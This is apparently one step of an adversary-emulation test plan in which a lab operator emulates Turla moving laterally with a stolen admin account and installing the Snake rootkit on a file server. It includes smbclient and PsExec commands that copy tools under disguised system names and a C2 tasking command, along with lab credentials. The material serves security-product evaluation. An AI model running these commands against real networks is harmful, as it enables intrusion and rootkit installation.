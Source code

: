 
## Test 11: Snake Lateral Movement to File Server

:microphone: `Voice Track:`

Test 11 emulates Turla using the discovered admin account to laterally move to the file server and install the Snake rootkit on it, and then
using Powershell to perform Active Directory user, group, and computer discovery. 

---

### :biohazard: Procedures

:arrow_right: RDP into `berzas (10.100.30.204)` as `EgleAdmin`:

| Username   | Password |
| :--------: | :---------------: |
| nk\EgleAdmin  | Producer1! |

* Close any spurious windows

:arrow_right: Return to your Kali C2 server

* From your `smbclient` Kali terminal tab, copy PsExec and the second Snake installer to `Azuolas`.

```bash
smbclient -U 'nk\EgleAdmin'%'Producer1!' //10.100.40.103/c$ -c 'put /opt/day2/turla/Resources/payloads/snake/PsExec.exe Windows\System32\file_svc_mgr.exe'
smbclient -U 'nk\EgleAdmin'%'Producer1!' //10.100.40.103/c$ -c 'put /opt/day2/turla/Resources/payloads/snake/installer_v2.exe Windows\System32\cmu_svc_v2.exe'
```

:arrow_right: Return to your RDP session to `Azuolas (10.100.40.103)` as `Egle` and look for indications of vendor blocking activity.

* Open File Explorer and browse to `C:\Windows\System32`. Order files by date.

* In the :heavy_exclamation_mark: `EgleAdmin` Powershell terminal, run the following command to execute PsExec, which will run the Snake installer on the file server `berzas`:
```powershell
C:\Windows\System32\file_svc_mgr.exe \\berzas -accepteula -s -c "C:\Windows\System32\cmu_svc_v2.exe"
```

* Check both the `Egle` and `EgleAdmin` RDP windows for indications of the vendor blocking the activity.

:arrow_right: Return to your RDP session to `berzas (10.100.30.204)` as `EgleAdmin`

* Open Edge and navigate to <https://www.google.com>. Perform a search on `File server configuration best practices`, but don't click on any results.

:arrow_right: Check the Kali C2 server terminal window and verify that a new implant session is beaconing back to the C2 server.

* From your lower Kali C2 control server terminal window, task Snake to check if the `ActiveDirectory` PowerShell module is installed.
```bash
./evalsC2client.py --set-task 5054474d50435a51404b '{"type": 2, "command": "$ProgressPreference = \"SilentlyContinue\"; Get-Module -ListAvailable -Name ActiveDirectory"}'
```
:heavy_exclamation_mark: Verify that you see output. If the implant returns empty output, please contact your lead.
